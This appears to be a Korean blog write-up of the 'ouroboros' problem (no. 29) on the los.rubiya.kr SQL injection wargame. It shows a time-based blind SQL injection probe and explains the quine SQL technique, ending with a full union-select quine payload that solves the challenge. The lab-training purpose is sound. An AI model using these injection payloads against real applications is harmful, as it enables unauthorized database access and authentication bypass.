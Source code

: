```yaml
---
title: "[LOS] 29번 문제 풀이(ouroboros)"
categories:
  - los
tags:
  - los
  - rubiya
  - los 29번
  - los ouroboros
  - quine sql
  
toc: true
toc_sticky: true
toc_label: "29번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/sql.png
---
```


💡 los.rubiya.kr 29번 문제에 대한 풀이입니다. 
{: .notice--warning}


# 29번(ouroboros)
## 문제

![image](https://user-images.githubusercontent.com/33647663/160227092-17442e7f-4021-43b1-9988-b2eec4a62947.png)

## 풀이
이 문제를 처음 보면, 쉬운 문제로 생각할 것입니다. 우선 pw에 필터링이 거의 걸려있지 않기 때문에, 다음과 같이 timebased blind sql injection을 수행해서 비밀번호의 길이를 알아내려고 시도를 합니다.

```sql
select pw from prob_ouroboros where pw='' or if(length(pw)=8,sleep(2),0)#'
```

하지만 코드를 실행해보면, pw길이가 나오지 않는다는 것을 알 수 있습니다. 즉 테이블 내에는 pw가 존재하지 않습니다.

다음과 같이 union select문을 사용하면 pw 값이 출력이 됩니다.

![image](https://user-images.githubusercontent.com/33647663/160227241-a77d1d01-d551-4ecc-87f7-b7eb76a0b90b.png)

즉 이 문제를 해결해야 하는 조건은 다음과 같습니다.

```
$result['pw'] === $_GET['pw']) // 클리어 조건

union select 구문을 이용해서 pw 값을 출력하되($result['pw']), 
출력되는 pw 값과 해당 pw 값을 출력하기 위해서 사용된 union select 구문($_GET['pw'])이 같아야 한다.
```

## Quine (Computing)
콰인이란 자기 자신의 코드를 결과로 출력하는 프로그램을 의미합니다. 
다음과 같은 quine sql 구문을 이용해서 이번 문제에 적용해야 합니다.

```
select replace(replace('select replace(replace("$",char(34),char(39)),char(36),"$")',char(34),char(39)),char(36),'select replace(replace("$",char(34),char(39)),char(36),"$")');
```

자세한 설명은 출처 블로그에 더 잘 쓰여 있으므로, 저는 활용법에 대한 예제만 몇개 작성해보고 문제를 풀겠습니다.

위의 내용을 활용하는 활용하는 방법은 다음과 같습니다. 우선 이 복잡한 quine 쿼리문의 구조는 간단하게 표현하면 다음과 같이 생각하시면 됩니다.

```sql
[prefix] select [quine] [postfix];
```

인젝션 문제에서 사용하기 위해 union select를 하려면 prefix 부분에 union을 넣어주면 되며, 마지막에 주석 처리 등이 필요하다면 postfix 부분에 #이나 --을 넣어주면 됩니다. 

이때, 주의할 점은 하나의 prefix나, postfix를 변경할때는 **3번**의 변경이 들어간다는 점입니다. 변경해야 하는 지점은 아래의 표시해 놨으며 왜 저기 3부분을 변경해야 하는지는 함수를 천천히 따라가 보면 이해가 되실 겁니다. 

```sql
[prefix] select replace(replace('[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]',char(34),char(39)),char(36),'[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]') [postfix]
```

이번 문제에서 적용을 해보겠습니다.

우선 우리 문제에서는 prefix와 postfix가 다음과 같습니다.

- prefix : ' union
- postfix : %23

이 부분을 적용해서 quine문을 바꾸면 다음과 같습니다.

```sql
'union select replace(replace('"union select replace(replace("$",char(34),char(39)),char(36),"$") %23',char(34),char(39)),char(36),'"union select replace(replace("$",char(34),char(39)),char(36),"$") %23') %23
```

주의할 점은 [prefix] 부분에서 싱글쿼터(')가 두번째, 세번째 [prefix]에 넣을때는 더블 쿼터(")로 넣은 부분입니다. 중간에 replace함수에 의해서 어떻게 바뀌는지 따라가 보시길 바랍니다.

이렇게 해서 pw에 값을 넣으면 클리어 할 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/160228187-438085c3-e481-4870-b486-f07580b86918.png)


# Reference
[https://blog.p6.is/quine-sql-injection/](https://blog.p6.is/quine-sql-injection/)
[https://aidencom.tistory.com/325](https://aidencom.tistory.com/325)

